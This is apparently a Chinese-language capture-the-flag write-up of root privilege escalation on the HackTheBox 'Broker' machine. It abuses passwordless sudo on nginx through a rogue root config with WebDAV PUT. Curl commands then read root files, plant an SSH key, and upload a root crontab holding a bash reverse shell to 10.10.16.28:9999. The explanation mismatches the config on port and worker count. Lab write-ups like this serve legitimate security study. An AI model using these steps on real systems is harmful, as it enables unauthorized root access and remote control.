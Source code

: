 ```yaml
---
title: sudo nginx提权学习
categories:
  - Linux
tags:
  - Linux
  - PE
---
```

## 0x00 前言
在[Broker](https://app.hackthebox.com/machines/Broker)这台机器上学的一种提权方式，重点是nginx配置文件的学习，以及如何通过上传文件到任意位置得到root权限。

---
## 0x01 枚举
使用`sudo -l`可以得到如下信息
```bash
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
能使用sudo通过无密码的方式以root用户的权限运行nginx命令

运行`nginx -h`得到帮助信息
```bash
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

```
可以看到-c标志能指定nginx服务的配置文件，所以我们可以通过更改配置文件的方式来利用它。

---
## 0x02 通过PUT方法上传公钥
既然可以以root用户运行nginx命令，那么我们可以写一个以root用户运行的nginx服务的配置文件，根目录就为`/`

之后使用`dav_methods PUT;`定义put方法，就可以以root用户的身份上传文件。

在/dev/shm目录下写一个nginx配置文件，名为ix1.conf

```bash
user root;
worker_processes auto;
pid /run/nginx2.pid;
events {
	worker_connections 768;
}
http {
	server {
		listen 1111;
		root /;
		autoindex on;

		dav_methods PUT;
	}	

}
```

1. **`user root;`：**
    - 设置 Nginx 进程的运行用户为 **`root`**。这是指定 Nginx 进程以特定用户身份运行的一种方式。
2. **`worker_processes 4;`：**
    - 指定启动的 Nginx worker 进程的数量为 4。Nginx 使用多进程模型，每个 worker 进程可以处理并发请求。
3. **`pid /run/nginx2.pid;`：**
    - 指定存储主进程 ID 的文件路径。Nginx 主进程的 ID 将被写入此文件，以便后续管理和监控。
4. **`events { ... }`：**
    - 定义与事件相关的配置块，如最大连接数等。
    - **`worker_connections 768;`：** 指定每个 worker 进程的最大连接数。
5. **`http { ... }`：**
    - 定义与 HTTP 相关的配置块。
    - **`server { ... }`：** 定义一个简单的虚拟主机。
        - **`listen 1111;`：** 指定监听的端口号为 1111。
        - **`root /;`：** 指定服务器的根目录为根目录（/），这表示 Nginx 将会从文件系统的根目录提供文件。
        - **`autoindex on;`：** 打开自动目录索引功能，当访问一个目录时，如果没有默认的索引文件（如 index.html），则显示该目录下的文件列表。
        - **`dav_methods PUT;`：** 启用 WebDAV 的 **`PUT`** 方法，允许客户端上传文件到服务器。

这个配置文件的目的是创建一个简单的 Nginx 服务器，监听端口 1337，允许通过 WebDAV 的 **`PUT`** 方法上传文件，同时启用了自动目录索引。请注意，实际生产环境中的配置可能需要更多的安全性和性能优化。

然后使用`sudo nginx -c`指定配置文件

```bash
sudo nginx -c /dev/shm/ix1.conf
```

运行`ss -lntp`可以看到1111端口开放，说明以上配置成功。

```bash
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                                                                                   
LISTEN 0      511          0.0.0.0:80         0.0.0.0:*    users:(("nginx",pid=924,fd=6),("nginx",pid=923,fd=6),("nginx",pid=922,fd=6))                             
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*    users:(("systemd-resolve",pid=519,fd=14))                                                                
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=947,fd=3))                                                                            
LISTEN 0      511          0.0.0.0:1111       0.0.0.0:*    users:(("nginx",pid=3859,fd=6),("nginx",pid=3858,fd=6),("nginx",pid=3857,fd=6))                          
LISTEN 0      511          0.0.0.0:12345      0.0.0.0:*    users:(("nginx",pid=1883,fd=6),("nginx",pid=1882,fd=6),("nginx",pid=1881,fd=6),("nginx",pid=1880,fd=6),("nginx",pid=1879,fd=6),("nginx",pid=1878,fd=6))
LISTEN 0      4096               *:61613            *:*    users:(("java",pid=966,fd=145))                                                                          
LISTEN 0      50                 *:61614            *:*    users:(("java",pid=966,fd=148))                                                                          
LISTEN 0      4096               *:61616            *:*    users:(("java",pid=966,fd=143))                                                                          
LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=947,fd=4))                                                                            
LISTEN 0      4096               *:1883             *:*    users:(("java",pid=966,fd=146))                                                                          
LISTEN 0      50                 *:34783            *:*    users:(("java",pid=966,fd=26))                                                                           
LISTEN 0      50                 *:8161             *:*    users:(("java",pid=966,fd=154))                                                                          
LISTEN 0      4096               *:5672             *:*    users:(("java",pid=966,fd=144))
```

然后可以使用`curl`查看主机上的任意文件。

```bash
activemq@broker:/dev/shm$ curl localhost:1111/root/root.txt
xxxxxxxxxxxxxxxxxxxx
```

也可以通过`PUT`方法上传文件到任意位置。

在本机生成一个公私钥对

```bash
ssh-keygen
```

然后通过curl上传（三种方式都行）

```bash
curl -X PUT localhost:1111/root/.ssh/authorized_keys -d "$(cat root.pub)"
curl -T root.pub localhost:1111/root/.ssh/authorized_keys
curl --upload-file root.pub localhost:1111/root/.ssh/authorized_keys
```

然后通过`ssh -i`指定私钥连接。

---
## 0x03 写计划任务反弹shell
可以通过在`/var/spool/cron/crontab`下写一个root用户的计划任务反弹shell

新建一个文件内容如下

```bash
* * * * * bash -c "bash -i >& /dev/tcp/10.10.16.28/9999 0>&1"
```

意思是每一分钟执行一次。

不理解可以看`/etc/crontab`文件

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

然后上传到`/var/spool/cron/crontabs/root`

<aside> ⚠️ 在 Unix/Linux 系统中，**`/var/spool/cron/crontabs/`** 目录通常包含了每个用户的个人 cron 作业文件。这个目录下的文件名称通常以用户名为基础，对应每个用户的 crontab 文件。这些文件包含了用户通过 **`crontab -e`** 命令编辑的定时任务。

</aside>

```bash
curl -T cron localhost:1111/var/spool/cron/crontabs/root
```

等待一分钟
![1](/assets/img/2023-11-18-sudo nginx提权学习/1.png)